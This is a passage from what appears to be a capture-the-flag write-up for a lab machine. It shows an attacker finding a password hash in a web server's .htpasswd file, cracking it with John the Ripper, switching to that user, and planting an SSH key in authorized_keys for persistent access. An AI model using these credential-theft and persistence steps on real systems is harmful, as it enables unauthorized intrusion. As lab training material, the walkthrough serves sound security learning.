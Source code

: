 $ cd james
/bin/sh: 3: cd: cant cd to james
{% endhighlight %}

## James
We need to be James. We are not James.

{% highlight shell %}
www-data@osboxes:/var/www/html$ grep -r james
grep -r james
.htpasswd:james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1
{% endhighlight %}

Not too hard to find.

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/debug]
└─# john hash -w=/usr/share/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 256/256 AVX2 8x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED          (?)
1g 0:00:00:00 DONE (2021-03-31 05:56) 50.00g/s 38400p/s 38400c/s 38400C/s evelyn..james1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
{% endhighlight %}

Now we can become James:

{% highlight shell %}
www-data@osboxes:/var/www/html$ su james
su james
Password: REDACTED

james@osboxes:/var/www/html$ cd /home/james
{% endhighlight %}

Let's make it easier for ourselves:

{% highlight shell %}
james@osboxes:~/.ssh$ printf 'ssh-rsa AAAAB__ my id_rsa.pub key here __YV9M= root@kali\n' >> authorized_keys
<xcl/orK+T8Srs44WzqlbHv56qKJT3kYV9M= root@kali\n' >> authorized_keys
{% endhighlight %}

And we can SSH in:

{% highlight shell %}
┌──(root💀kali)-[/opt/thm/debug]
└─# ssh james@10.10.151.167           
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-45-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

439 packages can be updated.
380 updates are security updates.

Last login: Wed Mar 31 05:59:00 2021 from 10.9.10.123
{% endhighlight %}
